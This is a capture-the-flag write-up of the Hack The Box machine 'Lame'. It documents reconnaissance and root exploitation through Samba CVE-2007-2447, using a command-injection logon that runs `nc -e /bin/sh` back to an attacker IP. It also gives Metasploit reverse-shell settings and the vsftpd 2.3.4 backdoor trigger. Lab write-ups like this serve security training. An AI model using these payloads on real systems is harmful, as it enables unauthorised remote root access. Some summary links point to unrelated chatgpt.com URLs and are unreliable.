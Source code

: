 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔎 Recon

```bash
nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.10.10.3
nmap -sU -p- --min-rate 10000 -oA scans/alludp 10.10.10.3
nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts 10.10.10.3
```

**Services Found:**

- [FTP](FTP) (vsftpd 2.3.4)
- [SSH](SSH)
- [Samba](SMB)
- distcc

---

## 📂 FTP (Port 21)

- Anonymous login **allowed** ✅
    
- Version: `vsftpd 2.3.4`
    
- [Exploit found](https://www.exploit-db.com/exploits/17491): **Backdoor Command Execution**
    

Tested both manually and via [Metasploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/), but no shell — likely **firewalled** 🔒.

---

## 🗂️ SMB (Port 445)

```bash
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
```

- Accessible share: `tmp` (mapped to /tmp)
    
- [Exploit](https://www.exploit-db.com/exploits/16320): **CVE-2007-2447** (Username map script)
    

### 🧪 Manual Exploit:

```
nc -lvnp 443
```

```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

## 🧙 Shell Cleanup

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

🔥 Got root shell! `uid=0(root)`

---

## 🛠️ Metasploit Exploitation

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <your_ip>
set LPORT 443
set payload cmd/unix/reverse
run
```

📟 Reverse shell opened with root privileges.

---

## 🧨 VSFTPD Backdoor Analysis (Beyond Root)

- Trigger **backdoor** via username `USER backdoor:)`
    
- Opens port 6200, but **blocked externally** by a firewall
    
- Confirmed via internal test with netcat from the box itself
    

```bash
nc 127.0.0.1 6200  # Success!
```

✅ Backdoor functional **internally**, not from HTB network

---

## 🏁 Flags

```bash
cat /home/makis/user.txt
cat /root/root.txt
```

---

## 📎 Summary

- ✅ [VSFTPD](https://chatgpt.com/c/ftp): Backdoor blocked by firewall
- ✅ [Samba](https://chatgpt.com/c/smb): CVE-2007-2447 yields **instant root shell**
- ✅ [Metasploit](https://metasploit.help.rapid7.com/docs): Supported but not required
- ✅ [Manual exploitation](https://www.exploit-db.com/exploits/16320): Viable and educational

🎉 Rooted HTB: Lame — Classic, simple, and a good OSCP prep box!

---

📬 Created by [0xdf](https://0xdf.gitlab.io/) ☕

🧠 Happy hacking!